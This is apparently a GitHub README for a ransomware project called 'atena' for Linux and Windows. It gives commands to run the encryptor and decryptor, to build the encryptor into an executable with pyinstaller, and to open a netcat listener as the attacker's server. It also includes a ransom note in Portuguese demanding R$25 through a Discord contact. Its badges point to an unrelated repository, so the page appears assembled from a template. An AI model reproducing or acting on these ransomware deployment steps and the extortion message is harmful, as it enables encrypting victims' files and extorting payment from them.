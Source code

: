<!-- Links -->
[bmac]: https://www.buymeacoffee.com/adi1090x
[ko-fi]: https://ko-fi.com/adi1090x
[paypal]: https://www.paypal.com/cgi-bin/webscr?cmd=_s-xclick&hosted_button_id=U3VK2SSVQWAPN
[patreon]: https://www.patreon.com/adi1090x

# Ransomware for linux and windows

<p align="left">
  <img src="https://img.shields.io/badge/Maintained%3F-Yes-green?style=for-the-badge">
  <img src="https://img.shields.io/github/license/adi1090x/termux-style?style=for-the-badge">
  <img src="https://img.shields.io/github/stars/adi1090x/termux-style?style=for-the-badge">
  <img src="https://img.shields.io/github/forks/adi1090x/termux-style?color=teal&style=for-the-badge">
  <img src="https://img.shields.io/github/issues/adi1090x/termux-style?color=violet&style=for-the-badge">
</p>

> **`Ransomware` is a type of data hijacking malware, done through encryption, which takes the victim's personal files hostage and charges a ransom to restore access to these files. The ransom is charged in cryptocurrencies, which, in practice, makes it almost impossible to track the criminal.**
### Run encrypt

```bash
python3 atena.py
```

### Run descrypt
```bash
python3 decrypt.py
```

### Build
```bash
pyinstaller atena.py
```

### build server
```bash
nc -vnlp {port}
```

```bash
**
     *****            *
    *  ***           **
       ***           **
      *  **        ********
      *  **       ********     ***    ***  ****       ****
     *    **         **       * ***    **** **** *   * ***  *
     *    **         **      *   ***    **   ****   *   ****
    *      **        **     **    ***   **    **   **    **
    *********        **     ********    **    **   **    **
   *        **       **     *******     **    **   **    **
   *        **       **     **          **    **   **    **
  *****      **      **     ****    *   **    **   **    **
 *   ****    ** *     **     *******    ***   ***   ***** **
*     **      **              *****      ***   ***   ***   **
*

      Ola todos os seus arquivos foram encryptados!
      Caso queira resgatar seuas fotos, videos, pdf etc...
      entre em contato cmg atraves o discord abaixo, preco
      do resgate R$25.

                        discord:
                    Mikelodoen#2823
```
